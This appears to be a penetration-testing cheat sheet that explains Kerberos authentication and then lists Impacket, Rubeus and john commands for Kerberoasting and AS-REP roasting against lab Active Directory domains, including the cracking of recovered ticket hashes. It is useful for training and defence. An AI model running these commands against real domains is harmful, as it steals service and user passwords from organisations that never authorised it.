 # Kerberos

When a user logs onto their workstation, their machine will send an AS-REQ message to the Key Distribution Center (KDC), aka Domain Controller, requesting a TGT using a secret key derived from the user’s password.

The KDC verifies the secret key with the password it has stored in Active Directory for that user. Once validated, it returns the TGT in an AS-REP message.The TGT contains the user’s identity and is encrypted with the KDC secret key (the krbtgt account).

When the user attempts to access a resource backed by Kerberos authentication (e.g. a file share), their machine looks up the associated Service Principal Name (SPN). It then requests (TGS-REQ) a Ticket Granting Service Ticket (TGS) for that service from the KDC, and presents its TGT as a means of proving they're a valid user.

The KDC returns a TGS (TGS-REP) for the service in question to the user, which is then presented to the actual service. The service inspects the TGS and decides whether it should grant the user access or not.


## Kerberoasting
Kerberoasting is a technique for requesting TGS’s for services running under the context of domain accounts and cracking them offline to reveal their plaintext passwords.

### Using [Impacket](https://github.com/SecureAuthCorp/impacket)

Attack carried out from attacker machine.
```markdown
GetUserSPNs.py -request -dc-ip 10.129.x.x active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

### Using [Rubeus.exe](https://github.com/GhostPack/Rubeus)

Attack carried out form target machine (upload the binary to target machine).
```markdown
.\Rubeus.exe kerberoast /simple /nowrap
```

For specific user.
```markdown
.\Rubeus.exe kerberoast /user:svc_mssql /nowrap
```

Get the hash and try to crack it offline with john.
```markdown
john --format=krb5tgs --wordlist=wordlist hash.txt
```


## AS-REP Roasting

If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password. 


### Using [Impacket](https://github.com/SecureAuthCorp/impacket)
```markdown
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/fsmith -dc-ip 10.129.1.165
```

For multiple Users.
```markdown
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.129.168.220 EGOTISTICAL-BANK.LOCAL/${user} | grep -v Impacket; done
```



### Using [Rubeus.exe](https://github.com/GhostPack/Rubeus)
```markdown
.\Rubeus.exe asreproast /user:fsmith /nowrap
```

Hash cracking.
```markdown
john --format=krb5asrep --wordlist=wordlist hash.txt
```


